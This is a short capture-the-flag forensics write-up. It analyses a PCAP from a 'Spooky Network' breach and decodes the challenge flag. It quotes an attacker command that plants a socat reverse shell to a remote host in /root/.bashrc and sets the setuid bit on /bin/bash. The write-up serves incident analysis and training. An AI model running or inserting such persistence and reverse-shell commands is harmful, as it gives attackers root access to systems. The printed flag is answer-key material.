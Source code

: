 # Wrong Spooky Season

## Description

"I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong." Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

## Solution

For this challenge, only a PCAP file was provided. Opening it in Wireshark and looking at the HTTP objects I notice some requests that look like RCE
![RCE](RCE.png)

Following the TCP streams, the last one captured the commands of a remote shell. One of the commands in it is
```bash
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
```

Decoding the base64-looking string with the following command will get the flag
```bash
echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev | base64 -d
# HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```
